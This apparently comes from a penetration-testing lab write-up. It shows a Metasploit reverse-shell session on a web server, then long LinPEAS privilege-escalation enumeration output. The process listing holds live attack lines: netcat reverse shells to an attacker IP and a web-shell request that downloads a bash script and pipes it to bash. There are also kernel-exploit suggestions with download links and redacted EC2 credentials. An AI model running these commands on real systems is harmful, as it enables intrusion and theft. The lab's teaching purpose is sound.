msf6 exploit(multi/handler) > run

[*] Started reverse TCP handler on 10.50.103.3:53
[*] Command shell session 1 opened (10.50.103.3:53 -> 10.200.107.33:45096) at 2024-09-29 16:24:22 +0900

Shell Banner:
bash: cannot set terminal process group (1934): Inappropriate ioctl for device
-----

www-data@ip-10-200-107-33:/var/www/html$ whoami
whoami
www-data
www-data@ip-10-200-107-33:/var/www/html$
At this point, we execute the command to turn enumeration findings into a practical foothold. The goal is to obtain either code execution, reusable credentials, or a stable interactive shell. Relevant options are preserved so the step can be repeated exactly during verification.
```
cat: write error: Broken pipe
grep: /etc/motd: No such file or directory
sed: -e expression #1, char 0: no previous regular expression
symbolic names for networks, see networks(5) for more information
grep: write error: Broken pipe

- `./linpeas.sh`
    
    ```bash
    www-data@ip-10-200-107-33:/var/www/html$ ./linpeas.sh
    ./linpeas.sh
    
                                ▄▄▄▄▄▄▄▄▄▄▄▄▄▄
                        ▄▄▄▄▄▄▄             ▄▄▄▄▄▄▄▄
                 ▄▄▄▄▄▄▄      ▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄  ▄▄▄▄
             ▄▄▄▄     ▄ ▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄ ▄▄▄▄▄▄
             ▄    ▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄
             ▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄ ▄▄▄▄▄       ▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄
             ▄▄▄▄▄▄▄▄▄▄▄          ▄▄▄▄▄▄               ▄▄▄▄▄▄ ▄
             ▄▄▄▄▄▄              ▄▄▄▄▄▄▄▄                 ▄▄▄▄
             ▄▄                  ▄▄▄ ▄▄▄▄▄                  ▄▄▄
             ▄▄                ▄▄▄▄▄▄▄▄▄▄▄▄                  ▄▄
             ▄            ▄▄ ▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄   ▄▄
             ▄      ▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄
             ▄▄▄▄▄▄▄▄▄▄▄▄▄▄                                ▄▄▄▄
             ▄▄▄▄▄  ▄▄▄▄▄                       ▄▄▄▄▄▄     ▄▄▄▄
             ▄▄▄▄   ▄▄▄▄▄                       ▄▄▄▄▄      ▄ ▄▄
             ▄▄▄▄▄  ▄▄▄▄▄        ▄▄▄▄▄▄▄        ▄▄▄▄▄     ▄▄▄▄▄
             ▄▄▄▄▄▄  ▄▄▄▄▄▄▄      ▄▄▄▄▄▄▄      ▄▄▄▄▄▄▄   ▄▄▄▄▄
              ▄▄▄▄▄▄▄▄▄▄▄▄▄▄        ▄          ▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄
             ▄▄▄▄▄▄▄▄▄▄▄▄▄                       ▄▄▄▄▄▄▄▄▄▄▄▄▄▄
             ▄▄▄▄▄▄▄▄▄▄▄                         ▄▄▄▄▄▄▄▄▄▄▄▄▄▄
             ▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄            ▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄
              ▀▀▄▄▄   ▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄ ▄▄▄▄▄▄▄▀▀▀▀▀▀
                   ▀▀▀▄▄▄▄▄      ▄▄▄▄▄▄▄▄▄▄  ▄▄▄▄▄▄▀▀
                         ▀▀▀▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▀▀▀
    
        /---------------------------------------------------------------------------------\
        |                             Do you like PEASS?                                  |
        |---------------------------------------------------------------------------------|
        |         Get the latest version    :     https://github.com/sponsors/carlospolop |
        |         Follow on Twitter         :     @hacktricks_live                        |
        |         Respect on HTB            :     SirBroccoli                             |
        |---------------------------------------------------------------------------------|
        |                                 Thank you!                                      |
        \---------------------------------------------------------------------------------/
              LinPEAS-ng by carlospolop
    
    ADVISORY: This script should be used for authorized penetration testing and/or educational purposes only. Any misuse of this software will not be the responsibility of the author or of any other collaborator. Use it at your own computers and/or with the computer owner's permission.
    
    Linux Privesc Checklist: https://book.hacktricks.xyz/linux-hardening/linux-privilege-escalation-checklist
     LEGEND:
      RED/YELLOW: 95% a PE vector
      RED: You should take a look to it
      LightCyan: Users with console
      Blue: Users without console & mounted devs
      Green: Common things (users, groups, SUID/SGID, mounts, .sh scripts, cronjobs)
      LightMagenta: Your username
    
     Starting LinPEAS. Caching Writable Folders...
                                   ╔═══════════════════╗
    ═══════════════════════════════╣ Basic information ╠═══════════════════════════════
                                   ╚═══════════════════╝
    OS: Linux version 5.4.0-1030-aws (buildd@lcy01-amd64-028) (gcc version 9.3.0 (Ubuntu 9.3.0-17ubuntu1~20.04)) #31-Ubuntu SMP Fri Nov 13 11:40:37 UTC 2020
    User & Groups: uid=33(www-data) gid=33(www-data) groups=33(www-data)
    Hostname: ip-10-200-107-33
    
    [+] /usr/bin/ping is available for network discovery (LinPEAS can discover hosts, learn more with -h)
    [+] /usr/bin/bash is available for network discovery, port scanning and port forwarding (LinPEAS can discover hosts, scan ports, and forward ports. Learn more with -h)
    [+] /usr/bin/nc is available for network discovery & port scanning (LinPEAS can discover hosts and scan ports, learn more with -h)
    [+] nmap is available for network discovery & port scanning, you should use it yourself
    
    Caching directories . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . DONE
    
                                  ╔════════════════════╗
    ══════════════════════════════╣ System Information ╠══════════════════════════════
                                  ╚════════════════════╝
    ╔══════════╣ Operative system
    ╚ https://book.hacktricks.xyz/linux-hardening/privilege-escalation#kernel-exploits
    Linux version 5.4.0-1030-aws (buildd@lcy01-amd64-028) (gcc version 9.3.0 (Ubuntu 9.3.0-17ubuntu1~20.04)) #31-Ubuntu SMP Fri Nov 13 11:40:37 UTC 2020
    Distributor ID: Ubuntu
    Description:    Ubuntu 20.04.1 LTS
    Release:        20.04
    Codename:       focal
    
    ╔══════════╣ Sudo version
    ╚ https://book.hacktricks.xyz/linux-hardening/privilege-escalation#sudo-version
    Sudo version 1.8.31
    
    ╔══════════╣ PATH
    ╚ https://book.hacktricks.xyz/linux-hardening/privilege-escalation#writable-path-abuses
    /usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin
    
    ╔══════════╣ Date & uptime
    Sun Sep 29 08:42:52 UTC 2024
     08:42:52 up  2:00,  0 users,  load average: 0.34, 0.08, 0.03
    
    ╔══════════╣ Unmounted file-system?
    ╚ Check if you can mount umounted devices
    LABEL=cloudimg-rootfs   /        ext4   defaults,discard        0 0
    
    ╔══════════╣ Any sd*/disk* disk in /dev? (limit 20)
    disk
    
    ╔══════════╣ Environment
    ╚ Any private information inside environment variables?
    SHLVL=2
    OLDPWD=/tmp
    APACHE_RUN_DIR=/var/run/apache2
    APACHE_PID_FILE=/var/run/apache2/apache2.pid
    JOURNAL_STREAM=9:23811
    _=./linpeas.sh
    PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin
    INVOCATION_ID=fa91fea705e94560b81c8158a7498f0b
    APACHE_LOCK_DIR=/var/lock/apache2
    LANG=C
    APACHE_RUN_GROUP=www-data
    APACHE_RUN_USER=www-data
    APACHE_LOG_DIR=/var/log/apache2
    PWD=/var/www/html
    
    ╔══════════╣ Searching Signature verification failed in dmesg
    ╚ https://book.hacktricks.xyz/linux-hardening/privilege-escalation#dmesg-signature-verification-failed
    dmesg Not Found
    
    ╔══════════╣ Executing Linux Exploit Suggester
    ╚ https://github.com/mzet-/linux-exploit-suggester
    cat: write error: Broken pipe
    cat: write error: Broken pipe
    [+] [CVE-2022-2586] nft_object UAF
    
       Details: https://www.openwall.com/lists/oss-security/2022/08/29/5
       Exposure: probable
       Tags: [ ubuntu=(20.04) ]{kernel:5.12.13}
       Download URL: https://www.openwall.com/lists/oss-security/2022/08/29/5/1
       Comments: kernel.unprivileged_userns_clone=1 required (to obtain CAP_NET_ADMIN)
    
    [+] [CVE-2021-4034] PwnKit
    
       Details: https://www.qualys.com/2022/01/25/cve-2021-4034/pwnkit.txt
       Exposure: probable
       Tags: [ ubuntu=10|11|12|13|14|15|16|17|18|19|20|21 ],debian=7|8|9|10|11,fedora,manjaro
       Download URL: https://codeload.github.com/berdav/CVE-2021-4034/zip/main
    
    [+] [CVE-2021-3156] sudo Baron Samedit
    
       Details: https://www.qualys.com/2021/01/26/cve-2021-3156/baron-samedit-heap-based-overflow-sudo.txt
       Exposure: probable
       Tags: mint=19,[ ubuntu=18|20 ], debian=10
       Download URL: https://codeload.github.com/blasty/CVE-2021-3156/zip/main
    
    [+] [CVE-2021-3156] sudo Baron Samedit 2
    
       Details: https://www.qualys.com/2021/01/26/cve-2021-3156/baron-samedit-heap-based-overflow-sudo.txt
       Exposure: probable
       Tags: centos=6|7|8,[ ubuntu=14|16|17|18|19|20 ], debian=9|10
       Download URL: https://codeload.github.com/worawit/CVE-2021-3156/zip/main
    
    [+] [CVE-2021-22555] Netfilter heap out-of-bounds write
    
       Details: https://google.github.io/security-research/pocs/linux/cve-2021-22555/writeup.html
       Exposure: probable
       Tags: [ ubuntu=20.04 ]{kernel:5.8.0-*}
       Download URL: https://raw.githubusercontent.com/google/security-research/master/pocs/linux/cve-2021-22555/exploit.c
       ext-url: https://raw.githubusercontent.com/bcoles/kernel-exploits/master/CVE-2021-22555/exploit.c
       Comments: ip_tables kernel module must be loaded
    
    [+] [CVE-2022-32250] nft_object UAF (NFT_MSG_NEWSET)
    
       Details: https://research.nccgroup.com/2022/09/01/settlers-of-netlink-exploiting-a-limited-uaf-in-nf_tables-cve-2022-32250/
    https://blog.theori.io/research/CVE-2022-32250-linux-kernel-lpe-2022/
       Exposure: less probable
       Tags: ubuntu=(22.04){kernel:5.15.0-27-generic}
       Download URL: https://raw.githubusercontent.com/theori-io/CVE-2022-32250-exploit/main/exp.c
       Comments: kernel.unprivileged_userns_clone=1 required (to obtain CAP_NET_ADMIN)
    
    [+] [CVE-2017-5618] setuid screen v4.5.0 LPE
    
       Details: https://seclists.org/oss-sec/2017/q1/184
       Exposure: less probable
       Download URL: https://www.exploit-db.com/download/https://www.exploit-db.com/exploits/41154
    
    ╔══════════╣ Protections
    ═╣ AppArmor enabled? .............. You do not have enough privilege to read the profile set.
    apparmor module is loaded.
    ═╣ AppArmor profile? .............. unconfined
    ═╣ is linuxONE? ................... s390x Not Found
    ═╣ grsecurity present? ............ grsecurity Not Found
    ═╣ PaX bins present? .............. PaX Not Found
    ═╣ Execshield enabled? ............ Execshield Not Found
    ═╣ SELinux enabled? ............... sestatus Not Found
    ═╣ Seccomp enabled? ............... disabled
    ═╣ User namespace? ................ enabled
    ═╣ Cgroup2 enabled? ............... enabled
    ═╣ Is ASLR enabled? ............... Yes
    ═╣ Printer? ....................... No
    ═╣ Is this a virtual machine? ..... Yes (xen)
    
                                       ╔═══════════╗
    ═══════════════════════════════════╣ Container ╠═══════════════════════════════════
                                       ╚═══════════╝
    ╔══════════╣ Container related tools present (if any):
    /usr/bin/docker
    /usr/sbin/runc
    ╔══════════╣ Container details
    ═╣ Is this a container? ........... No
    ═╣ Any running containers? ........ Yes docker(1)
    Running Docker Containers
    8185415feb5e        cb1b741122e8        "/bin/sh -c '/etc/in…"   2 hours ago         Up 2 hours          0.0.0.0:80->80/tcp   www-holo-live
    
                                         ╔═══════╗
    ═════════════════════════════════════╣ Cloud ╠═════════════════════════════════════
                                         ╚═══════╝
    grep: /etc/motd: No such file or directory
    ./linpeas.sh: 2214: check_aliyun_ecs: not found
    ═╣ GCP Virtual Machine? ................. No
    ═╣ GCP Cloud Funtion? ................... No
    ═╣ AWS ECS? ............................. No
    ═╣ AWS EC2? ............................. Yes
    ═╣ AWS EC2 Beanstalk? ................... No
    ═╣ AWS Lambda? .......................... No
    ═╣ AWS Codebuild? ....................... No
    ═╣ DO Droplet? .......................... No
    ═╣ IBM Cloud VM? ........................ No
    ═╣ Azure VM? ............................ No
    ═╣ Azure APP? ........................... No
    ═╣ Aliyun ECS? ..........................
    ═╣ Tencent CVM? ......................... Yes
    
    ╔══════════╣ AWS EC2 Enumeration
    ami-id: ami-0f6b85902f70ab54b
    instance-action: none
    instance-id: i-0494b7daf966d6e09
    instance-life-cycle: on-demand
    instance-type: t2.medium
    region: eu-west-1
    
    ══╣ Account Info
    {
      "Code" : "Success",
      "LastUpdated" : "2024-09-29T08:28:35Z",
      "AccountId" : "739930428441"
    }
    
    ══╣ Network Info
    Mac: 02:20:71:19:59:a7/
    Owner ID: 739930428441
    Public Hostname:
    Security Groups: 10.200.107.33-10.200.107.0/24
    Private IPv4s:
    
    Subnet IPv4: 10.200.107.0/24
    PrivateIPv6s:
    
    Subnet IPv6:
    Public IPv4s:
    
    ══╣ IAM Role
    
    ══╣ User Data
    
    ══╣ EC2 Security Credentials
    {
      "Code" : "Success",
      "LastUpdated" : "2024-09-29T08:28:38Z",
      "Type" : "AWS-HMAC",
      "AccessKeyId" : "REDACTED_AWS_ACCESS_KEY_ID",
      "SecretAccessKey" : "REDACTED_AWS_SECRET_ACCESS_KEY",
      "Token" : "REDACTED_AWS_SESSION_TOKEN",
      "Expiration" : "2024-09-29T14:35:28Z"
    }
    ══╣ SSM Runnig
    
    ╔══════════╣ Tencent CVM Enumeration
    ╚ https://cloud.tencent.com/document/product/213/4934
    
    ══╣ Instance Info
    
    ══╣ Network Info
    
    ══╣ Service account
    
    ══╣ Possbile admin ssh Public keys
    
    ══╣ User Data
    
                    ╔════════════════════════════════════════════════╗
    ════════════════╣ Processes, Crons, Timers, Services and Sockets ╠════════════════
                    ╚════════════════════════════════════════════════╝
    ╔══════════╣ Running processes (cleaned)
    ╚ Check weird & unexpected proceses run by root: https://book.hacktricks.xyz/linux-hardening/privilege-escalation#processes
    root         770  0.0  0.0   2488   592 ?        S    06:42   0:00  _ bpfilter_umh
    root           1  0.0  0.2 167316 11360 ?        Ss   06:42   0:01 /sbin/init
    root         167  0.0  0.3  35256 15552 ?        S<s  06:42   0:00 /lib/systemd/systemd-journald
    root         194  0.0  0.1  19152  5516 ?        Ss   06:42   0:00 /lib/systemd/systemd-udevd
    root         273  0.0  0.4 214652 17980 ?        SLsl 06:42   0:01 /sbin/multipathd -d -s
    systemd+     291  0.0  0.1  90396  6388 ?        Ssl  06:42   0:00 /lib/systemd/systemd-timesyncd
      └─(Caps) 0x0000000002000000=cap_sys_time
    systemd+     338  0.0  0.1  26880  7800 ?        Ss   06:42   0:00 /lib/systemd/systemd-networkd
      └─(Caps) 0x0000000000003c00=cap_net_bind_service,cap_net_broadcast,cap_net_admin,cap_net_raw
    systemd+     340  0.0  0.3  24052 12216 ?        Ss   06:42   0:00 /lib/systemd/systemd-resolved
    root         382  0.0  0.1 237396  7532 ?        Ssl  06:42   0:00 /usr/lib/accountsservice/accounts-daemon
    root         383  0.0  0.0   2540   724 ?        Ss   06:42   0:00 /usr/sbin/acpid
    root         389  0.0  0.0   8536  3072 ?        Ss   06:42   0:00 /usr/sbin/cron -f
    root         410  0.0  0.0  10200  3380 ?        S    06:42   0:00  _ /usr/sbin/CRON -f
    root         468  0.0  0.0   2608   612 ?        Ss   06:42   0:00      _ /bin/sh -c bash /root/.config/script.sh
    root         470  0.0  0.0   8616  3232 ?        S    06:42   0:04          _ bash /root/.config/script.sh
    root       19995  0.0  0.0   7228   588 ?        S    08:43   0:00              _ sleep 1
    message+     390  0.0  0.1   7504  4588 ?        Ss   06:42   0:00 /usr/bin/dbus-daemon --system --address=systemd: --nofork --nopidfile --systemd-activation --syslog-only
      └─(Caps) 0x0000000020000000=cap_audit_write
    root         399  0.0  0.0  81820  3760 ?        Ssl  06:42   0:00 /usr/sbin/irqbalance --foreground
    root         402  0.0  0.4  29252 17904 ?        Ss   06:42   0:00 /usr/bin/python3 /usr/bin/networkd-dispatcher --run-startup-triggers
    syslog       404  0.0  0.1 224484  4940 ?        Ssl  06:42   0:00 /usr/sbin/rsyslogd -n -iNONE
    root         405  0.0  0.1  16728  7612 ?        Ss   06:42   0:00 /lib/systemd/systemd-logind
    daemon[0m       408  0.0  0.0   3792  2228 ?        Ss   06:42   0:00 /usr/sbin/atd -f
    root         412  0.1  1.1 969388 46072 ?        Ssl  06:42   0:09 /usr/bin/containerd
    root         994  0.0  0.1 110112  6392 ?        Sl   06:42   0:00  _ containerd-shim -namespace moby -workdir /var/lib/containerd/io.containerd.runtime.v1.linux/moby/8185415feb5e8cea107063323f40cd635791199d8f3671eb2834301962742fdc -address /run/containerd/containerd.sock -containerd-binary /usr/bin/containerd -runtime-root /var/run/docker/runtime-runc
    root        1012  0.0  0.0   4632   888 ?        Ss   06:42   0:00      _ /bin/sh -c /etc/init.d/apache2 start && /etc/init.d/mysql start && /bin/bash
    root        1085  0.0  0.4 373648 18616 ?        Ss   06:42   0:00          _ /usr/sbin/apache2 -k start
    www-data    1090  0.0  0.3 374204 12888 ?        S    06:42   0:00          |   _ /usr/sbin/apache2 -k start
    www-data    1091  0.0  0.2 374040 10872 ?        S    06:42   0:00          |   _ /usr/sbin/apache2 -k start
    www-data    1092  0.0  0.2 374048 10868 ?        S    06:42   0:00          |   _ /usr/sbin/apache2 -k start
    www-data    2232  0.0  0.0   4632   812 ?        S    06:47   0:00          |   |   _ sh -c nc -e /bin/sh 10.50.103.3 3333
    www-data    2233  0.0  0.0   4632   860 ?        S    06:47   0:00          |   |       _ sh
    www-data    2293  0.0  0.0  19312  2096 ?        S    06:47   0:00          |   |           _ script -q /dev/null
    www-data    2294  0.0  0.0  18512  3424 ?        Ss+  06:47   0:00          |   |               _ bash -i
    www-data    1093  0.0  0.3 374204 13768 ?        S    06:42   0:00          |   _ /usr/sbin/apache2 -k start
    www-data    1094  0.0  0.3 374204 12656 ?        S    06:42   0:00          |   _ /usr/sbin/apache2 -k start
    www-data    1896  0.0  0.8 378976 36100 ?        S    06:44   0:00          |   _ /usr/sbin/apache2 -k start
    www-data    2301  0.0  0.2 374040 10880 ?        S    06:47   0:00          |   _ /usr/sbin/apache2 -k start
    www-data   10858  0.0  0.3 374212 12360 ?        S    07:56   0:00          |   _ /usr/sbin/apache2 -k start
    www-data   10923  0.0  0.2 374040 10844 ?        S    07:57   0:00          |   _ /usr/sbin/apache2 -k start
    www-data   11056  0.0  0.2 374040 10904 ?        S    07:58   0:00          |   _ /usr/sbin/apache2 -k start
    www-data   11303  0.0  0.2 374056 10900 ?        S    08:00   0:00          |   _ /usr/sbin/apache2 -k start
    www-data   11368  0.0  0.2 374056 10904 ?        S    08:00   0:00          |   _ /usr/sbin/apache2 -k start
    www-data   11434  0.0  0.2 374056 10904 ?        S    08:01   0:00          |   _ /usr/sbin/apache2 -k start
    www-data   12073  0.0  0.2 374212 11592 ?        S    08:06   0:00          |   _ /usr/sbin/apache2 -k start
    www-data   12156  0.0  0.2 374040 10912 ?        S    08:07   0:00          |   _ /usr/sbin/apache2 -k start
    www-data   12996  0.0  0.2 374040 10904 ?        S    08:13   0:00          |   _ /usr/sbin/apache2 -k start
    www-data   13007  0.0  0.2 374040 10844 ?        S    08:13   0:00          |   _ /usr/sbin/apache2 -k start
    www-data   13056  0.0  0.2 374040 10900 ?        S    08:14   0:00          |   _ /usr/sbin/apache2 -k start
    www-data   13073  0.0  0.2 374056 10900 ?        S    08:14   0:00          |   _ /usr/sbin/apache2 -k start
    www-data   13231  0.0  0.2 374040 10912 ?        S    08:15   0:00          |   _ /usr/sbin/apache2 -k start
    www-data   13248  0.0  0.2 374212 11628 ?        S    08:15   0:00          |   _ /usr/sbin/apache2 -k start
    www-data   13760  0.0  0.2 374212 11588 ?        S    08:19   0:00          |   _ /usr/sbin/apache2 -k start
    www-data   13970  0.0  0.2 374040 10912 ?        S    08:21   0:00          |   _ /usr/sbin/apache2 -k start
    www-data   13983  0.0  0.2 374212 11948 ?        S    08:21   0:00          |   _ /usr/sbin/apache2 -k start
    www-data   14146  0.0  0.2 374204 11980 ?        S    08:23   0:00          |   _ /usr/sbin/apache2 -k start
    www-data   14439  0.0  0.2 374040 10912 ?        S    08:25   0:00          |   _ /usr/sbin/apache2 -k start
    www-data   14534  0.0  0.3 374260 12816 ?        S    08:26   0:00          |   _ /usr/sbin/apache2 -k start
    www-data   14826  0.0  0.2 374212 11612 ?        S    08:28   0:00          |   _ /usr/sbin/apache2 -k start
    www-data   15017  0.0  0.2 374212 11692 ?        S    08:30   0:00          |   _ /usr/sbin/apache2 -k start
    www-data   15094  0.0  0.2 374228 11736 ?        S    08:30   0:00          |   _ /usr/sbin/apache2 -k start
    www-data   15747  0.0  0.2 373920  8648 ?        S    08:36   0:00          |   _ /usr/sbin/apache2 -k start
    www-data   15806  0.0  0.2 374048 10908 ?        S    08:36   0:00          |   _ /usr/sbin/apache2 -k start
    www-data   15915  0.0  0.0   4632   804 ?        S    08:37   0:00          |   |   _ sh -c nc -e /bin/sh 10.50.103.3 3333
    www-data   15916  0.0  0.0   4632   880 ?        S    08:37   0:00          |   |       _ sh
    www-data   15959  0.0  0.2  36548  8524 ?        S    08:37   0:00          |   |           _ python3 -c import pty; pty.spawn("/bin/bash")
    www-data   15960  0.0  0.0  18512  3412 ?        Ss   08:37   0:00          |   |               _ /bin/bash
    www-data   16276  0.0  0.2 112668  9308 ?        S+   08:39   0:00          |   |                   _ curl 192.168.100.1:8080/hax.php?cmd=curl%20http%3A%2F%2F10.50.103.3%3A80%2Fbash.sh%7Cbash%20%26
    www-data   15809  0.0  0.1 373728  6884 ?        S    08:36   0:00          |   _ /usr/sbin/apache2 -k start
    www-data   15810  0.0  0.1 373680  6856 ?        S    08:36   0:00          |   _ /usr/sbin/apache2 -k start
    systemd+    1137  0.0  0.0   4632  1788 ?        S    06:42   0:00          _ /bin/sh /usr/bin/mysqld_safe
    systemd+    1491  0.1  4.9 1621092 199792 ?      Sl   06:42   0:07          |   _ /usr/sbin/mysqld --basedir=/usr --datadir=/var/lib/mysql --plugin-dir=/usr/lib/mysql/plugin --log-error=/var/log/mysql/error.log --pid-file=/var/run/mysqld/mysqld.pid --socket=/var/run/mysqld/mysqld.sock --port=3306 --log-syslog=1 --log-syslog-facility=daemon --log-syslog-tag=
    root        1607  0.0  0.0  18512  3156 ?        S+   06:42   0:00          _ /bin/bash
    root         413  0.0  2.0 1008784 84364 ?       Ssl  06:42   0:02 /usr/bin/dockerd -H fd:// --containerd=/run/containerd/containerd.sock
    root         986  0.0  0.0 548248  3268 ?        Sl   06:42   0:00  _ /usr/bin/docker-proxy -proto tcp -host-ip 0.0.0.0 -host-port 80 -container-ip 192.168.100.100 -container-port 80
    root         441  0.0  0.0   7352  2260 ttyS0    Ss+  06:42   0:00 /sbin/agetty -o -p -- u --keep-baud 115200,38400,9600 ttyS0 vt220
    root         445  0.0  0.0   5828  1832 tty1     Ss+  06:42   0:00 /sbin/agetty -o -p -- u --noclear tty1 linux
    root         550  0.0  0.1 232708  6768 ?        Ssl  06:42   0:00 /usr/lib/policykit-1/polkitd --no-debug
    root         584  0.0  0.5 108072 20976 ?        Ssl  06:42   0:00 /usr/bin/python3 /usr/share/unattended-upgrades/unattended-upgrade-shutdown --wait-for-signal
    mysql        720  0.2  9.3 1741020 376336 ?      Ssl  06:42   0:20 /usr/sbin/mysqld
    root        1934  0.0  0.4 193472 17896 ?        Ss   06:45   0:00 /usr/sbin/apache2 -k start
    www-data    1935  0.0  0.3 193908 12860 ?        S    06:45   0:00  _ /usr/sbin/apache2 -k start
    www-data    1936  0.0  0.3 193900 12108 ?        S    06:45   0:00  _ /usr/sbin/apache2 -k start
    www-data    1937  0.0  0.3 193908 12124 ?        S    06:45   0:00  _ /usr/sbin/apache2 -k start
    www-data    1938  0.0  0.3 193900 12108 ?        S    06:45   0:00  _ /usr/sbin/apache2 -k start
    www-data    1939  0.0  0.2 193900 11796 ?        S    06:45   0:00  _ /usr/sbin/apache2 -k start
    www-data    6825  0.0  0.2 193900 11796 ?        S    07:24   0:00  _ /usr/sbin/apache2 -k start
    www-data   16510  0.0  0.1 193860  7924 ?        S    08:41   0:00  _ /usr/sbin/apache2 -k start
    www-data   16279  0.0  0.0   3976  2964 ?        S    08:39   0:00 bash
    www-data   16280  0.0  0.0   4240  3660 ?        S    08:39   0:00  _ bash -i
    www-data   16648  0.1  0.0   3680  2648 ?        S    08:42   0:00      _ /bin/sh ./linpeas.sh
    www-data   20009  0.0  0.0   3680  1136 ?        S    08:43   0:00          _ /bin/sh ./linpeas.sh
    www-data   20013  0.0  0.0   6032  2952 ?        R    08:43   0:00          |   _ ps fauxwww
    www-data   20012  0.0  0.0   3680  1136 ?        S    08:43   0:00          _ /bin/sh ./linpeas.sh
    
    ╔══════════╣ Processes with credentials in memory (root req)
    ╚ https://book.hacktricks.xyz/linux-hardening/privilege-escalation#credentials-from-process-memory
    gdm-password Not Found
    gnome-keyring-daemon Not Found
    lightdm Not Found
    vsftpd Not Found
    apache2 process found (dump creds from memory as root)
    sshd: process found (dump creds from memory as root)
    
    ╔══════════╣ Processes whose PPID belongs to a different user (not root)
    ╚ You will know if a user can somehow spawn processes as a different user
    Proc 291 with ppid 1 is run by user systemd-timesync but the ppid user is root
    Proc 338 with ppid 1 is run by user systemd-network but the ppid user is root
    Proc 340 with ppid 1 is run by user systemd-resolve but the ppid user is root
    Proc 390 with ppid 1 is run by user messagebus but the ppid user is root
    Proc 404 with ppid 1 is run by user syslog but the ppid user is root
    Proc 408 with ppid 1 is run by user daemon but the ppid user is root
    Proc 720 with ppid 1 is run by user mysql but the ppid user is root
    Proc 1090 with ppid 1085 is run by user www-data but the ppid user is root
    Proc 1091 with ppid 1085 is run by user www-data but the ppid user is root
    Proc 1092 with ppid 1085 is run by user www-data but the ppid user is root
    Proc 1093 with ppid 1085 is run by user www-data but the ppid user is root
    Proc 1094 with ppid 1085 is run by user www-data but the ppid user is root
    Proc 1137 with ppid 1012 is run by user systemd-resolve but the ppid user is root
    Proc 1896 with ppid 1085 is run by user www-data but the ppid user is root
    Proc 1935 with ppid 1934 is run by user www-data but the ppid user is root
    Proc 1936 with ppid 1934 is run by user www-data but the ppid user is root
    Proc 1937 with ppid 1934 is run by user www-data but the ppid user is root
    Proc 1938 with ppid 1934 is run by user www-data but the ppid user is root
    Proc 1939 with ppid 1934 is run by user www-data but the ppid user is root
    Proc 2301 with ppid 1085 is run by user www-data but the ppid user is root
    Proc 6825 with ppid 1934 is run by user www-data but the ppid user is root
    Proc 10858 with ppid 1085 is run by user www-data but the ppid user is root
    Proc 10923 with ppid 1085 is run by user www-data but the ppid user is root
    Proc 11056 with ppid 1085 is run by user www-data but the ppid user is root
    Proc 11303 with ppid 1085 is run by user www-data but the ppid user is root
    Proc 11368 with ppid 1085 is run by user www-data but the ppid user is root
    Proc 11434 with ppid 1085 is run by user www-data but the ppid user is root
    Proc 12073 with ppid 1085 is run by user www-data but the ppid user is root
    Proc 12156 with ppid 1085 is run by user www-data but the ppid user is root
    Proc 12996 with ppid 1085 is run by user www-data but the ppid user is root
    Proc 13007 with ppid 1085 is run by user www-data but the ppid user is root
    Proc 13056 with ppid 1085 is run by user www-data but the ppid user is root
    Proc 13073 with ppid 1085 is run by user www-data but the ppid user is root
    Proc 13231 with ppid 1085 is run by user www-data but the ppid user is root
    Proc 13248 with ppid 1085 is run by user www-data but the ppid user is root
    Proc 13760 with ppid 1085 is run by user www-data but the ppid user is root
    Proc 13970 with ppid 1085 is run by user www-data but the ppid user is root
    Proc 13983 with ppid 1085 is run by user www-data but the ppid user is root
    Proc 14146 with ppid 1085 is run by user www-data but the ppid user is root
    Proc 14439 with ppid 1085 is run by user www-data but the ppid user is root
    Proc 14534 with ppid 1085 is run by user www-data but the ppid user is root
    Proc 14826 with ppid 1085 is run by user www-data but the ppid user is root
    Proc 15017 with ppid 1085 is run by user www-data but the ppid user is root
    Proc 15094 with ppid 1085 is run by user www-data but the ppid user is root
    Proc 15747 with ppid 1085 is run by user www-data but the ppid user is root
    Proc 15806 with ppid 1085 is run by user www-data but the ppid user is root
    Proc 15809 with ppid 1085 is run by user www-data but the ppid user is root
    Proc 15810 with ppid 1085 is run by user www-data but the ppid user is root
    Proc 16279 with ppid 1 is run by user www-data but the ppid user is root
    Proc 16510 with ppid 1934 is run by user www-data but the ppid user is root
    
    ╔══════════╣ Files opened by processes belonging to other users
    ╚ This is usually empty because of the lack of privileges to read other user processes information
    COMMAND     PID   TID TASKCMD               USER   FD      TYPE DEVICE SIZE/OFF   NODE NAME
    
    ╔══════════╣ Systemd PATH
    ╚ https://book.hacktricks.xyz/linux-hardening/privilege-escalation#systemd-path-relative-paths
    PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin
    
    ╔══════════╣ Cron jobs
    ╚ https://book.hacktricks.xyz/linux-hardening/privilege-escalation#scheduled-cron-jobs
    /usr/bin/crontab
    incrontab Not Found
    -rw-r--r-- 1 root root    1042 Feb 13  2020 /etc/crontab
    
    /etc/cron.d:
    total 24
    drwxr-xr-x   2 root root 4096 Nov  3  2020 .
    drwxr-xr-x 101 root root 4096 Sep 24 16:47 ..
    -rw-r--r--   1 root root  102 Feb 13  2020 .placeholder
    -rw-r--r--   1 root root  201 Feb 14  2020 e2scrub_all
    -rw-r--r--   1 root root  712 Mar 27  2020 php
    -rw-r--r--   1 root root  190 Sep  7  2020 popularity-contest
    
    /etc/cron.daily:
    total 56
